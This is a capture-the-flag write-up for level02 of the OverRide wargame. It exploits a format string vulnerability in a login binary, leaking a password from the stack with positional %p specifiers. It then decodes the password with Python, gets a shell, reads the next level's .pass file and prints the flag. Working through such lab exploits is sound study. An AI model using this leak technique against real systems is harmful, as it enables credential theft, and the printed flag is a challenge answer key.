 # **Level02**

At this level (level02), I found a binary file that, when executed, prompts the user for a username and password.

```nasm
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: eeeeee
--[ Password: eee
*****************************************
eeeeee does not have access!
level02@OverRide:~$
```

## **Binary Analysis**

After examining the program with GDB, I found that the program reads the password from a file, takes the username and password input from the user, and compares them. If the password is correct, it spawns a shell.

```nasm

0x0000000000400814 <+0>:     push   %rbp
0x0000000000400818 <+4>:     sub    $0x120,%rsp      ;Allocate 288 bytes

;Initialize buffers at different offsets
0x000000000040082c <+24>:    lea    -0x70(%rbp),%rdx  ; Username buffer
0x0000000000400849 <+53>:    lea    -0xa0(%rbp),%rdx  ; File content buffer
0x0000000000400869 <+85>:    lea    -0x110(%rbp),%rdx ; Password buffer

;Open password file
0x00000000004008a8 <+148>:   callq  0x400700 <fopen@plt>
0x00000000004008ad <+153>:   mov    %rax,-0x8(%rbp)   ; Store file pointer

;Read from file
0x00000000004008f4 <+224>:   mov    $0x29,%edx        ; Read 41 bytes (0x29)
0x0000000000400901 <+237>:   callq  0x400690 <fread@plt>

;Username input
0x00000000004009d1 <+445>:   mov    $0x64,%esi        ; Size = 100 bytes
0x00000000004009d9 <+453>:   callq  0x4006f0 <fgets@plt>

;Password input
0x0000000000400a17 <+515>:   mov    $0x64,%esi        ; Size = 100 bytes
0x0000000000400a1f <+523>:   callq  0x4006f0 <fgets@plt>

; Format string vulnerability
0x0000000000400a96 <+642>:   lea    -0x70(%rbp),%rax  ; Load username
0x0000000000400aa2 <+654>:   callq  0x4006c0 <printf@plt> ; Direct printf

;spawning a shell
0x0000000000400a85 <+625>:	mov    $0x400d32,%edi
0x0000000000400a8a <+630>:	callq  0x4006b0 <system@plt>
```

## **Vulnerability**

The vulnerability in this program is a format string vulnerability. The input is passed directly to `printf` without proper validation.

```nasm
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p%p
--[ Password:
*****************************************
0x7fffffffe4c0(nil) does not have access!
level02@OverRide:~$
```

## **Exploit**

Now, we need to calculate the offset. First, we determine the distance between the buffers.

```nasm
(gdb) p/d 0x70
$1 = 112
(gdb) p/d 0xa0
$2 = 160
```

Visual representation:

```nasm
Higher addresses
[      ...      ]
rbp-112 (0x70)  Username buffer
[      ...      ]
48 bytes difference
[      ...      ]
rbp-160 (0xa0)  Password buffer
[      ...      ]
Lower addresses
```

Calculating the Distance:

                                           *Distance = 160 − 112 = 48 bytes*

Since this is a 64-bit binary (x86_64), where registers, memory addresses, and stack values are 8 bytes each, we determine the number of positions to move:

                                           *48 ÷ 8 = 6 positions*

This means we need to go back **6 positions** on the stack to reach the password buffer.

1. **Find the Start Position** 

```nasm
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password:
*****************************************
AAAAAAAA 0x7fffffffe4c0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6b8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x4141414141414141 0x2520702520702520 0x2070252070252070 does not have access!
level02@OverRide:~$

```

2. **We can verify this with specific position:**

```nasm
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA %28$p
--[ Password:
*****************************************
AAAA 0x3832252041414141 ; Confirms position 28
level02@OverRide:~$ 
```

So the first password position: 28 - 6 = 22

1. **Precise Format String:**

```bash
# Read 5 8-byte chunks starting at position 22
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password:
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
level02@OverRide:~$
```

1. **Decode Password:**

```python
hex_values = [
    '756e505234376848',  # First chunk
    '45414a3561733951',  # Second chunk
    '377a7143574e6758',  # Third chunk
    '354a35686e475873',  # Fourth chunk
    '48336750664b394d'   # Fifth chunk
]

password = ''
for hex_val in hex_values:
    # 1. bytes.fromhex(hex_val):
    # '756e505234376848' -> b'unPR47hH'
    
    # 2. [::-1]:
    # b'unPR47hH' -> b'Hh74RPnu'
    
    # 3. decode('ascii'):
    # b'Hh74RPnu' -> 'Hh74RPnu'
    
    bytes_val = bytes.fromhex(hex_val)
    password += bytes_val[::-1].decode('ascii')

print(password)
```

**Output:** 

```python
~ python3 d**ecoding**.py
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
➜  ~
```

1. **Get the Flag**

```python
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: dddddd
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, dddddd!
$ whoami
level03
$ cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
$
```

## Flag

```python
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```